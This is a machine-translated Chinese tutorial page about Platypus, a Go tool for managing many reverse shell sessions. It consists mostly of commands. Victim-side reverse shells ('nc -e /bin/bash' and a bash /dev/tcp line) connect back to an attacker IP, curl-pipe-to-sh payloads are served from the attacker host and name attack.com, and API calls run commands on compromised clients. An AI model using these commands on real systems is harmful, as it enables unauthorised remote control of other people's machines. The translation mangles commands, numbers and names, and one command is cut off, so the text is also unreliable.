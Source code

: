# Platypus:一个用 Go 编写的现代多重反向 Shell 会话管理器

> 原文：<https://kalilinuxtutorials.com/platypus-multiple-reverse-shell/>

Platypus 是一个现代的多重反向 shell 会话/客户端管理器，通过终端使用 go 编写。它包括以下内容

*   多服务监听端口
*   多个客户端连接
*   RESTful API
*   反向外壳即服务

**也可阅读-[w12 scan:一个简单的网络安全资产发现引擎](https://kalilinuxtutorials.com/w12scan-discovery-engine-cybersecurity/)**

**网络拓扑**

攻击 IP: 192.168.1.2
反壳服务:0.0.0:8080
RESTful 服务:127.0.0.1:9090
受害 IP: 192.168.1.3

**从源代码运行鸭嘴兽**

去拿 github.com/WangYihang/Platypus
CD go/src/github . com/王一航/鸭嘴兽
去跑鸭嘴兽. go

**从发布的二进制文件中运行鸭嘴兽**

//从 https://github.com/WangYihang/Platypus/releases
chmod+x ./Platypus _ Linux _ amd64
下载二进制。/鸭嘴兽 _linux_amd64

**受害方**

NC-e/bin/bash 192 . 168 . 1 . 2 8080
bash-c ' bash-I>/dev/TCP/192 . 168 . 1 . 2/8080 0>

**反向外壳即服务**

// Platypus 能够复用反向外壳监听端口
//端口 8080 可以接收反向外壳客户端连接
//同样这些也是作为服务在此端口上运行的反向外壳

//受害者将被重定向到攻击者-主机攻击者-端口
//sh-c " $(curl http://host:port/attack-host/attack-port)"
curl http://192 . 168 . 1 . 2:8080/attack . com/1337
bash 它将使用主机，端口作为攻击者-主机攻击者-端口
//sh-c " $(curl http://host:port/)"
curl http://192 . 168 . 1 . 2:8080/
curl http://192 . 168 . 1 . 2:8080/192 . 168 . 1 . 2/8080 | sh
sh-c " $(curl http://host:port/)"

**RESTful API**

GET /client 列出所有在线客户端

curl ' http://127 . 0 . 0 . 1:9090/client
{
" msg ":[
" 192 . 168 . 1 . 3:54798 "
，
" status ":true
}
POST/client/:hash 在特定客户端上执行命令
curl-X POST ' http://127 . 0 . 0 . 1:900

**如何哈希？**

echo-n " 192 . 168 . 1 . 3:54798 " | MD 5 sum
0723 C3 bed 0d 0240140 e 10 a6 ffd 36 eed 4-

**截图**

*   ![](img//8063ee4da2da84b34f9ff2b7b7f58458.png)
*   ![](img//04a3a70e412c0c4ed619ccf306fd0cbb.png)

[**Download**](https://github.com/WangYihang/Platypus)